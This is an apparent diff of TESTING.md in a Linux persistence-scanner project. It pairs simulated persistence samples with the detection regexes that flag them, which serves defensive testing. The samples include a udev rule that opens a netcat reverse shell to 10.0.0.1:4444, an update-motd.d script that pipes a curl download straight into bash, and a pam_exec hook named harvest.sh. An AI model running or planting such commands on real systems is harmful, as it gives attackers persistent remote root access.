

Before and after one commit to JakubMalisz/PersistenceScanner, a Markdown page: TESTING.md, 3 parts joined by grey strips. Shown at 97% size. GitHub-like rendering; pictures changed too: assets/test-cron.png; blank space fills up the shorter version.

````diff
--- a/TESTING.md
+++ b/TESTING.md
@@ -15,8 +15,8 @@ ACTION=="add", ENV{CMD}="nc -e /bin/bash 10.0.0.1 4444", RUN+="/bin/sh -c 'eval
 ```
 
 **Matched Indicators (`rules.json`):**
-* `eval\s+(\$env|%E)\{` — **MEDIUM** (*Udev macro substitution evasion*)
-* `nc\s+-e` — **CRITICAL** (*Reverse shell attempt via netcat*)
+* `eval\s+(\$env|%E)\{` — **MEDIUM** (*Udev macro substitution evasion attempt detected in extracted payload*)
+* `\bnc\s+-e` — **CRITICAL** (*Reverse shell attempt using netcat with execution flag*)
 
 **PoC Evidence:**
 
@@ -105,17 +105,19 @@ session    optional     pam_exec.so /dev/shm/.harvest.sh
 
 ## PoC 5: MOTD Dynamic Script Execution Persistence
 
-**Vector:** Attackers place executable scripts into `/etc/update-motd.d/` that stealthily fetch and execute remote payloads with root permissions whenever any user logs in via SSH or interactive terminal.
+**Vector:** Attackers place executable scripts into `/etc/update-motd.d/` that stealthily fetch and execute remote fileless payloads bypassing SSL verification and directly piping to the shell.
 
 **Simulated File:** `99-backdoor`
 
 ```bash
 #!/bin/sh
-curl -s http://10.0.0.1/update.sh
+curl -s -k https://10.0.0.1/update.sh | bash
 ```
 
 **Matched Indicators (`rules.json`):**
-* `curl\s+-s` — **HIGH** (*Silent HTTP request via curl*)
+* `\bcurl\s+.*\|\s*(ba|z|k|da)?sh` — **CRITICAL** (*Silent HTTP request via curl piped directly to a shell (Fileless payload execution)*)
+* `\bcurl\s+.*-(k|-insecure)` — **HIGH** (*HTTP request via curl with SSL/TLS verification disabled*)
+* `\|\s*(ba|z|k|da)?sh` — **LOW** (*Piping raw remote stream directly into shell execution*)
 
 **PoC Evidence:**
 
````
Also changed, not shown: other parts of TESTING.md (+13 -13 lines), assets/test-systemd.png, 1 other file.
